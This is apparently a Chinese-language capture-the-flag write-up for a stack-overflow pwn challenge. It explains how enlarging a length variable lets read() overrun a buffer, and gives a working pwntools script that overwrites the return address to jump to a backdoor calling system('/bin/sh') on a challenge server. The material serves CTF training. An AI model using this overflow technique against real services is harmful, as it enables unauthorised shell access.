




- IDA分析附件main：
    
    主要逻辑就是先让用户输入name的长度，然后再输入name

- system("/bin/sh");在backdoor函数：
    

- 查看buf的栈：
    
    可以看到，如果使用程序默认的nbytes数值，read函数读取的数据量有限，无法从buf溢出到r变量所在区域，也就无法控制 rip 指向 backdoor ，所以需要先将 nbytes 变量的数值设定为一个足够大的值，让read的读取范围足以覆盖到 r 变量及返回地址区域；随后再向buf填充垃圾数据实现栈溢出，覆盖 r 变量直至返回地址，最终将 rip 指向 backdoor

- EXP：
    ```python
    from pwn import *

    a = remote("node4.anna.nssctf.cn",22083)
    length = '100'
    payload = b"A" * 0x18 + p64(0x4006E6)
    a.sendline(length)
    a.sendline(payload)
    a.interactive()
    ```
    